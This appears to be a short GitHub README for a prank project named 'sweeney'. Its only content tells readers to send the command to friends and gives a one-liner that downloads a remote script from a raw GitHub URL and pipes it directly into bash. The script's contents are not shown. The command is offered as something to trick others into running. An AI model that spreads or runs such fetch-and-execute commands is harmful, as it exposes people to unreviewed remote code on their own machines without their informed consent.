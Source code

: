# sweeney
send this to your friends to totally sweeney them

```curl -s https://raw.githubusercontent.com/x86Overflow/sweeney/main/sweeney | bash```
